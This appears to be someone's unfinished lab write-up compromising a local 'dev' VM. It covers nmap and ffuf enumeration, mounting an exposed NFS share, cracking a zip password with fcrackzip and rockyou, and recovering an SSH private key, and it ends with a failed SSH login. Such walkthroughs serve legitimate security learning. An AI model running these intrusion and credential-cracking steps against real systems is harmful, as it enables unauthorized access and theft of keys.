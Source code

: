 
## Do scanning and enumeration using nmap

```
nmap -sS -Pn -A -p- -T4 192.168.64.6 -oN nmapdev.txt
```


Output:

```
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-07 15:18 PDT
Nmap scan report for 192.168.64.6
Host is up (0.0015s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36809/tcp6  mountd
|   100005  1,2,3      47231/tcp   mountd
|   100005  1,2,3      50980/udp   mountd
|   100005  1,2,3      60620/udp6  mountd
|   100021  1,3,4      34691/tcp6  nlockmgr
|   100021  1,3,4      40815/tcp   nlockmgr
|   100021  1,3,4      57124/udp   nlockmgr
|   100021  1,3,4      58206/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
37319/tcp open  mountd   1-3 (RPC #100005)
40815/tcp open  nlockmgr 1-4 (RPC #100021)
43943/tcp open  mountd   1-3 (RPC #100005)
47231/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 26:8C:8C:9E:4A:EE (Unknown)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.54 ms 192.168.64.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.82 seconds

```

## Exploit port 8080

```
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
37319/tcp open  mountd   1-3 (RPC #100005)
40815/tcp open  nlockmgr 1-4 (RPC #100021)
43943/tcp open  mountd   1-3 (RPC #100005)
47231/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 26:8C:8C:9E:4A:EE (Unknown)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


- http://192.168.64.6:8080
		- PHP Version 7.3.27-1~deb10u1
		- Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 

Here are the valid directories as per ffuf

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.64.6/FUZZ -mc 200,204,301,302,307,401,403,405


Here are the directories (has return 301)

dev                     [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 17ms]
                        [Status: 200, Size: 94605, Words: 4689, Lines: 1160, Duration: 69ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 25ms]

## Exploit port 80

- http://192.168.64.6
		- There is bolt cms webpage not in proper location


## Directory scanning using ffuf

#ffuf 

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.64.6/FUZZ -mc 200,204,301,302,307,401,403,405

Here are 


## Exploit nfs


1. Check nfs file share by using `showmount -e 192.168.64.6`
2. Make a directory to mount that nfs file share to your directory by using `mkdir /mnt/dev
3. mount the /mnt/dev directory to the nfs file share `mnt -t nfs 192.168.64.6:/srv/nfs /mnt/dev`
4. Go to the directory `cd /mnt/dev`
5. list the directory `ls`
6. unzip the file `unzip save.zip`
7. However it has password, we need to install fcrackzip `apt install fcrackzip`
8. Use fcrackzip to crack the password using the wordlist dictionary rockyou.txt
```
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
```
where:

- -v - verbosity
- -u - unzip
- -D - dictionary
- -p - we are using wordlistfile rockyou.txt
- save.zip - the file that we will unzip

9. After cracking, we found out that the pw is java101
10. After unzipping we unzion sa save.zip and found id_rsa file and todo.txt
11. We tried the id_rsa file in connecting using jp username but cant connect 

```
┌──(root㉿kali)-[~]
└─# showmount -e 192.168.64.6
Export list for 192.168.64.6:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

┌──(root㉿kali)-[~]
└─# mkdir /mnt/dev 

┌──(root㉿kali)-[~]
└─# mount -t nfs 192.168.64.6:/srv/nfs /mnt/dev

┌──(root㉿kali)-[~]
└─# cd /mnt/dev 

┌──(root㉿kali)-[/mnt/dev]
└─# ls
save.zip

┌──(root㉿kali)-[/mnt/dev]
└─# unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password: 
password incorrect--reenter: 
   skipping: id_rsa                  incorrect password
   skipping: todo.txt                incorrect password

┌──(root㉿kali)-[/mnt/dev]
└─# apt install fcrackzip

┌──(root㉿kali)-[/mnt/dev]
└─# fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip                                                                          
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)


PASSWORD FOUND!!!!: pw == java101

┌──(root㉿kali)-[/mnt/dev]
└─# unzip save.zip 
Archive:  save.zip
[save.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: todo.txt                

┌──(root㉿kali)-[/mnt/dev]
└─# ls
id_rsa  save.zip  todo.txt

┌──(root㉿kali)-[/mnt/dev]
└─# cat todo.txt 
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp

┌──(root㉿kali)-[/mnt/dev]
└─# ssh -i id_rsa jp@192.168.64.6
The authenticity of host '192.168.64.6 (192.168.64.6)' can't be established.
ED25519 key fingerprint is SHA256:NHMY4yX3pvvY0+B19v9tKZ+FdH9JOewJJKnKy2B0tW8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.64.6' (ED25519) to the list of known hosts.
jp@192.168.64.6's password: 
Permission denied, please try again.
jp@192.168.64.6's password: 

                                                                                                                                                      
┌──(root㉿kali)-[/mnt/dev]
└─# 


```
